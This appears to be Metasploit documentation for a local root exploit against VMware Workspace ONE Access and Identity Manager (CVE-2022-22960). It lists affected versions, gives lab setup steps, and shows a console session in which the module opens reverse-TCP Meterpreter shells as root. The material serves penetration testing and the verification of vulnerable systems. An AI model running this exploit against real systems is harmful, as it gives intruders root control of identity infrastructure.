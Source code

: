 ## Vulnerable Application

This module exploits CVE-2022-22960 which allows the user to overwrite the permissions of the certproxyService.sh script
so that it can be modified by the horizon user. This allows a local attacker with the uid 1001 to escalate their
privileges to root access.

| Vulnerable Application  | Vulnerable version   |
|---|---|
| VMware Workspace ONE Access (Access)   |  21.08.0.1, 21.08.0.0, 20.10.0.1, 20.10.0.0  |
| VMware Identity Manager (vIDM)  |  3.3.6, 3.3.5, 3.3.4, 3.3.3  |
| VMware vRealize Automation (vRA)  |  8.x, 7.6  |
| VMware Cloud Foundation | 4.x | 
| vRealize Suite Lifecycle Manager| 8.x |

### Setup

In order to download a vulnerable application you do need VMware Customer Connect credentials. Navigate to
[Download VMware Workspace ONE Access (VIDM)](https://customerconnect.vmware.com/downloads/info/slug/desktop_end_user_computing/vmware_workspace_one_access_vidm/20_10).
to download the OVA file. 
During VM Configuration within VMware Fusion, in Addition Settings input the following: 

#### Application:

Timezone: (timezone of your choice)

Join the VMware Custom Experience Improvement Program: (deselect)

#### Networking Properties: (note the following may depend on your network configuration)

Host Name (FQDN): access01.corp.local

Default Gateway: 192.168.123.1 

Domain Name: (blank)

Domain Search Path: (blank)

DNS: 192.168.123.1 

IP Address: 192.168.123.16 
Network: 255.255.255.0

Add the following line to your `/etc/hosts` file:
`192.168.123.16 access.test.local`

Be sure to change the network adapter of the VM to the network adapter that corresponds to the subnet of the static IP address you assigned above.

#### GUI Setup

Once running navigate to https://access.test.local:8443/cfg/setup
in order to complete the following setup requirements:

Set Passwords
 - Appliance Administrator Account
 - Appliance Root Account
 - Remote User Account

Select Database
 - Database Type: Internal Database

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/local/vmware_workspace_one_access_cve_2022_22960`
1. Set the `SESSION`, `LHOST`, and `TARGET`
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### VMware Identity Manager 21.08.0.1-19010796

```
msf exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > use exploit/linux/local/vmware_workspace_one_access_cve_2022_22960
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > set lport 4443
lport => 4443
msf exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > run

[*] Started reverse TCP handler on 192.168.123.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. vulnerable
[*] Writing '/tmp/QbCpIao.sh' (1658 bytes) ...
[*] Triggering the payload...
[*] Sending stage (24772 bytes) to 192.168.123.16
[+] Deleted /tmp/QbCpIao.sh
[*] Meterpreter session 9 opened (192.168.123.1:4443 -> 192.168.123.16:53800) at 2023-04-07 10:38:05 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : access01.corp.local
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.123.16 - Meterpreter session 9 closed.  Reason: User exit
msf exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > set target 1
target => 1
msf exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > run

[*] Started reverse TCP handler on 192.168.123.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. vulnerable
[*] Writing '/tmp/oMNw.sh' (250 bytes) ...
[*] Writing '/tmp/FsMoUmqB.sh' (1132 bytes) ...
[*] Triggering the payload...
[*] Sending stage (3045348 bytes) to 192.168.123.16
[+] Deleted /tmp/oMNw.sh
[+] Deleted /tmp/FsMoUmqB.sh
[*] Meterpreter session 10 opened (192.168.123.1:4443 -> 192.168.123.16:53838) at 2023-04-07 10:38:34 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : access01.corp.local
OS           : VMware Photon OS 3.0 (Linux 4.19.217-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
